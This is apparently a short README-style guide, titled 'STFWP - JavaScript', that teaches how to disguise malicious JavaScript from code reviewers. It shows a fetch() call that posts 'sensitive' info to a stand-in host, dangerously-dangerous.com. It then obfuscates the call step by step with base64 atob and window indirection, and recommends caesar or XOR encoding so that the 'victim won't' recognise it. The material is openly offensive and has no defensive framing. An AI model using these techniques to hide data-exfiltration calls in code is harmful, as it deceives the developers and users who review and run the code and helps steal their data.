 # STFWP - JavaScript

### Tricks

##### EXTREME-UGLIFICATION of your code
JavaScript being an interpreted language means it is really easy to read the code being executed. So, uglify your code. But even then its is readable. So, uglify it EXTREMELY by encrypting or encoding it to garbage. Doing it to the entire file can be a dead giveaway tho so you can instead just encrypt parts of the file that are easily readable. There are many ways to do this. Heres what I mean by this.

Heres your dangerously dangerous code -
```javascript
fetch('http://dangerously-dangerous.com/something', { method: 'post', body: { sensitive: 'info' } });
```

Looking at that you know that this will make a dangerously dangerous api call to possibly steal some sensitive info. Lets hide the url.

There are many ways to make it less readable. One of them is atob (base64)

So now it'll look like this
```javascript
fetch(atob('aHR0cDovL2Rhbmdlcm91c2x5LWRhbmdlcm91cy5jb20vc29tZXRoaW5n'), { method: 'post', body: { sensitive: 'info' } });
```

But its still pretty clear that the snippet is making an api call. Let's take it a step further i.e. TOO-EXTREME-TO-HANDLE-UGLIFICATION

```javascript
const _ = atob;
window[_('ZmV0Y2g=')](_('aHR0cDovL2Rhbmdlcm91c2x5LWRhbmdlcm91cy5jb20vc29tZXRoaW5n'), { method: 'post', body: { sensitive: 'info' } });
```

Now guess what that code does. Now stop guessing because you already know the answer. But your victim won't.

Instead of base64, you can also use a simple ceaser cipher or xor encryption algorithms. And to take it a step further, use a different key for each of the values. You can also use jsfuck but I don't reccommend it as it will make it easy for a developer to recognize whats happening and can un-jsfuck it.
